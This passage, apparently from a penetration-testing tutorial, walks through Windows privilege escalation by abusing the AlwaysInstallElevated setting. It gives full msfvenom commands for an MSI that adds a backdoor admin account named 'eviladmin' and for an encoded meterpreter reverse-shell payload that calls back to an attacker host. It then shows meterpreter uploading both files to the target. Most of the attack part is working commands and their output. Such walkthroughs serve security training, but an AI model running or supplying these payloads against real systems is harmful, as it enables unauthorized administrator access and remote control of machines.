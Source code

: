 C:\Users\testuser\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
C:\Users\testuser\Desktop>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
C:\Users\testuser\Desktop>
```
As I said before, in this situation, Windows Installer will use elevated permissions when it installs any program. So we should generate a malicious .msi file and run it. msfvenom can handle this.

If you want you can generate a .msi file that adds a local admin to our target machine. You should use windows/adduser as a payload:
```
root@kali:~# msfvenom -f msi-nouac -p windows/adduser USER=eviladmin PASS=P4ssw0rd@ -o add_user.msi
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 277 bytes
Final size of msi file: 159744 bytes
Saved as: add_user.msi
root@kali:~# 
```
But in this scenario I’ll generate an executable reverse shell payload(Payload.exe) and an msi file(malicious.msi) that executes this payload. Let’s do it!

Generating Payload.exe:
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 73802 bytes
Saved as: Payload.exe
```
Generating malicious.msi by using windows/exec as a payload. Make sure you enter the correct path for Payload.exe:
```
root@kali:~# msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 233 bytes
Final size of msi-nouac file: 159744 bytes
```
Now we can upload these two to our target machine.
```
meterpreter > cd C:/Users/testuser/AppData/Local/Temp
meterpreter > upload -f Payload.exe
[*] uploading  : Payload.exe -> Payload.exe
[*] uploaded   : Payload.exe -> Payload.exe
meterpreter > upload -f malicious.msi
[*] uploading  : malicious.msi -> malicious.msi
[*] uploaded   : malicious.msi -> malicious.msi
```
```